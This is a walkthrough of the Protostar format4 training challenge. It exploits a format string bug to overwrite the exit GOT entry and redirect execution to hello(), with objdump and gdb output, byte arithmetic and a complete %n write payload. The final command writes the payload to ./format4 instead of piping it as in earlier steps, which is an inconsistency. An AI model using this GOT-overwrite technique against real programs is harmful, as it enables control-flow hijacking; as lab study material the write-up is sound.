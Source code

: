 <h2>Goal</h2>

The goal of this challenge similar to the later stack challenges, we have to overwrite an EXIT with the `hello()` function address, but through a format string exploit.

<h2>Process</h2>
Let's start off by getting the addresses we need.

Using `objdump -TR` as suggested by the challenge we get the following:
```bash
/opt/protostar/bin$ objdump -TR format4

08049710 R_386_JUMP_SLOT   fgets
08049714 R_386_JUMP_SLOT   __libc_start_main
08049718 R_386_JUMP_SLOT   _exit
0804971c R_386_JUMP_SLOT   printf
08049720 R_386_JUMP_SLOT   puts
08049724 R_386_JUMP_SLOT   exit
```

`exit 08049724` is the address we will want over write with the hello function.

Objdump can be used again to get the memory address of the hello function.

```bash
objdump -d format4 | grep hello
080484b4 <hello>:
```


Now we need to figure out where we can start changing memory. Use the same process as Format2 and Format3 to determine this. We end up with this:

```bash
python -c 'print "AAAA"+"%x "*4' | ./format4
AAAA200 b7fd8420 bffff614 41414141 
```

Next replace the `41414141` with the address of `\x24\x97\x04\x08`, which we want to overwrite. I will also jump ahead a bit here, replace `%x` with `%n` and add in the proper format for a full write.

```bash
python -c 'print "\x24\x97\x04\x08"+"\x25\x97\x04\x08"+"\x26\x97\x04\x08"+"\x27\x97\x04\x08"+"%4$n"+"%5$n"+"%6$n"+"%7$n"' | ./format4
$�%�&�'�
Segmentation fault
```

Last time format3 printed out the value we had overwritten and we could use it to determine what values to specify, this time it does not. We will have to go into gdb to get the correct values. Before going into gdb, put the exploit output into a file so we can use it in gdb.

```bash
python -c 'print "\x24\x97\x04\x08"+"\x25\x97\x04\x08"+"\x26\x97\x04\x08"+"\x27\x97\x04\x08"+"%4$n"+"%5$n"+"%6$n"+"%7$n"' > /tmp/exp
```

`disas vuln` and set a break point at the exit so we can examine the value we are writing. `break *vuln+61`

In gdb with breakpoint set:

```bash
r < /tmp/exp
Starting program: /opt/protostar/bin/format4 < /tmp/exp
$�%�&�'�

Breakpoint 1, 0x0804850f in vuln () at format4/format4.c:22
22	format4/format4.c: No such file or directory.
	in format4/format4.c
    
#print out the value of the exit address.    
(gdb) x/1x 0x08049724
0x8049724 <_GLOBAL_OFFSET_TABLE_+36>:	0x10101010
```

Ok now for some math.  Since we are working with little endian we will be starting with the least significant byte of both the value of exit and value we want to overwrite it with.

Value of exit: `0x10101010`
Value we want to overwrite exit with: `0x080484b4`

GDB can do the math for us. Take the LSB of our desired value, `b4` and subtract the current LSB value of exit `10`

```bash
p 0xb4 - 0x10 
$1 = 164
```

Next is to subtract the second LSB `84` from the previous desired value, `64`

```bash
p 0x84 - 0xb4
$2 = -48
```
Notice the negative value. We cannot accept negative values, so add a 1 to the infront of the desired value, `0x184`

```bash
p 0x184 - 0xb4
$3 = 208
```

Continue on with the same process. Next `0x04 - 0x84`. We know that 84 is larger than 04, so we can add the 1 before the calculation
```bash
p 0x104 - 0x84
$4 = 128
```

```bash
p 0x108 - 0x04
$5 = 260
```

Now that we have all our values we can add each one to the exploit code. 
Example: `"%4n"` becomes `"%164x%4$n"`

<h2>Solution</h2>

```bash
python -c 'print "\x24\x97\x04\x08"+"\x25\x97\x04\x08"+"\x26\x97\x04\x08"+"\x27\x97\x04\x08"+"%164x%4$n"+"%208x%5$n"+"%128x%6$n"+"%260x%7$n"' > ./format4
$�%�&�'�                                                                                                                                                                 200                                                                                                                                                                                                        b7fd8420                                                                                                                        bffff614                                                                                                                                                                                                                                                             8049724
code execution redirected! you win
```

